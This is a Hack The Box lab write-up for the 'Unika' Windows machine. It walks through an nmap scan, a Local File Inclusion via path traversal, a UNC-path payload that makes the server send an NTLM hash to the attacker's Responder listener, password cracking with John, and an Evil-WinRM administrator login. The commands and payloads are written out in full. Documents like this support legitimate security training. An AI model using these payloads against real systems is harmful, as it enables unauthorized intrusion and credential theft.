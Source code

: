 # 🖥️ Hack The Box – Unika (Windows)

**Machine Type**: Windows
**Solved By**: Akshat Nigam
**Category**: Web | LFI | WinRM | SMB | Hash Cracking
**Difficulty**: Easy to Medium

---

## 🔍 1. Initial Scanning

Once the machine was assigned, I started by scanning the target IP using Nmap to find open ports:

```bash
nmap -sC -sV -p- <target-ip>
```

### 🔓 Open Ports Identified:

* **Port 80** – HTTP (Website)
* **Port 5985** – WinRM (Windows Remote Management)

---

## 💡 2. Understanding WinRM

**WinRM (Windows Remote Management)** is a Windows service that allows remote command execution and management over the network. It’s commonly used with PowerShell.

* Port `5985` – HTTP
* Port `5986` – HTTPS

---

## 🌐 3. Exploring the Website

When I opened the website in a browser, I noticed a **language selection** feature.

The URL looked something like:

```
http://unika.htb/index.php?page=french.html
```

---

## 🐛 4. Identifying File Inclusion Vulnerability

The `page` parameter in the URL was dynamically loading different files. This made it a strong candidate for **Local File Inclusion (LFI)**.

I tested this by modifying the URL to try and load a sensitive Windows file:

```
http://unika.htb/index.php?page=../../../../../windows/system32/drivers/etc/hosts
```

✅ It worked – the content of the Windows `hosts` file was displayed.

This confirmed a **Local File Inclusion** vulnerability.

---

## 📄 5. Why LFI Worked

* The website used PHP’s `include()` function.
* No proper input sanitization or filtering.
* That allowed us to traverse directories and read internal system files.

LFI is a powerful bug, but simply reading files is just the start.

---

## 🎣 6. LFI to SMB Hash Capture (NetNTLMv2)

Instead of just reading files, I went further:

* I tricked the web server into trying to load a file from **my attacker machine**.
* This forces the **Windows server to connect back to me using SMB**.
* When it does this, Windows automatically sends a login hash (NetNTLMv2).

---

## 🧰 7. Capturing Hash with Responder

To capture the hash, I ran **Responder** on my machine:

```bash
sudo responder -I <your-network-interface>
```

Then, triggered the LFI like:

```
http://unika.htb/index.php?page=\\<your-ip>\share
```

Boom 💥 – the target sent me an NTLM hash.

---

## 🔓 8. Cracking the NTLM Hash

Now I needed to crack the captured hash to get the **administrator password**.

I used **John the Ripper** with the popular `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Eventually, I got the password: `P@ssw0rd123!` (example)

---

## 🔐 9. Accessing Target via WinRM

With credentials in hand, I used **Evil-WinRM** to get a remote PowerShell session:

```bash
evil-winrm -i <target-ip> -u administrator -p <password>
```

🎉 This gave me full access to the target machine via PowerShell.

---

## ✅ Summary

| Step | Description                                   |
| ---- | --------------------------------------------- |
| 1    | Scanned open ports (HTTP & WinRM)             |
| 2    | Discovered LFI via `page` parameter           |
| 3    | Used LFI to read system files                 |
| 4    | Redirected file inclusion to attacker via SMB |
| 5    | Captured NetNTLMv2 hash with Responder        |
| 6    | Cracked hash using John and rockyou.txt       |
| 7    | Logged in using Evil-WinRM                    |

---

## 🏁 Outcome

* ✅ LFI Discovered
* ✅ NTLM Hash Captured
* ✅ Password Cracked
* ✅ Admin Access via Evil-WinRM

---

This was a great example of how a simple LFI can be chained into full system compromise using SMB and hash cracking. 💥
